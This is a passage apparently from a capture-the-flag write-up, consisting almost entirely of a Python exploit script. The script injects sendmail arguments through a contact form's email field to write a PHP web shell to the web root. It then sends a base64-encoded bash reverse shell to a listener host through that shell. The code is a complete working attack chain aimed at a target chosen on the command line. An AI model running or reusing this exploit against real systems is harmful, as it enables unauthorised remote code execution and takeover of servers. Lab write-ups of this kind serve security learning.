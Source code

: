 ```py
    headers = {"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "X-Requested-With": "XMLHttpRequest"}
    data = {"action": "submit", "name": "0x4rt3mis", "email": "\"hacker\\\" -oQ/tmp -X/var/www/html/cmd.php rce\"@rce.com", "subject": "Testing", "message": "<?php echo shell_exec($_REQUEST['cmd']); ?>"}
    r.post(url, headers=headers, data=data)
    print("[+] Sent !! [+]")

# Just get the reverse!    
def getReverse(rhost,lhost,lport):
    print("[+] Now Let's get the reverse shell! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    message_bytes = reverse.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')

    payload = {
    'cmd': 'echo ' + base64_message + '|base64 -d | bash'
}
    payload_str = urllib.parse.urlencode(payload, safe='|')
    url = "http://%s:80/cmd.php?" %rhost
    r.get(url, params=payload_str, proxies=proxies, cookies=r.cookies)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=True)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.ipaddress
    lport = args.port

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Send the mail
    sendMail(rhost)
    # Get the rev shell
    getReverse(rhost,lhost,lport)
    
if __name__ == '__main__':
    main()
```

# www-data -> Root

